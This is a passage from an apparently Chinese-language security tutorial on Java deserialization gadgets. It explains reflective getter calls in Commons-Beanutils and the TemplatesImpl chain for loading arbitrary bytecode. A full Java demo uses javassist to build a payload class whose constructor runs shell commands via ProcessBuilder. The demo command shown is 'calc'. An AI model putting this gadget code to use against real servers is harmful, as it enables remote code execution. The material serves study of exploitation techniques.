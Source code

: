 简而言之，`PropertyUtils.getProperty(）`这个方法就是通过**反射**调用**任意对象**的`getter`，获得对应属性的值，此处的属性可以是嵌套的。

## getter的妙用

### TemplatesImpl

利用`Templates`加载任意字节码的调用链：

```java
TemplatesImpl.getOutputProperties()-->TemplatesImpl#newTransformer()
    -->TemplatesImpl#getTransletInstance()-->TemplatesImpl#defineTransletClasses()
    -->TemplatesImpl.TransletClassLoader#defineClass()
```

```java
package org.example.cb1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;

import java.lang.reflect.Field;

public class TemplatesImplDemo {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] {genPayload("calc").toBytecode()});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.getOutputProperties();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static CtClass genPayload(String cmd) throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public Exp() throws Exception {\n" +
                "            try {\n" +
                "                    String tc = \"" + cmd + "\";\n" +
                "                    String[] cmd = System.getProperty(\"os.name\").toLowerCase().contains(\"windows\") " +
                "                        ? new String[]{\"cmd.exe\", \"/c\", tc} : new String[]{\"/bin/sh\", \"-c\", tc};" +
                "            new ProcessBuilder(cmd).start();" +
                "            } catch (Exception e) {\n" +
                "                e.getStackTrace();\n" +
                "            }\n" +
                "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
}
```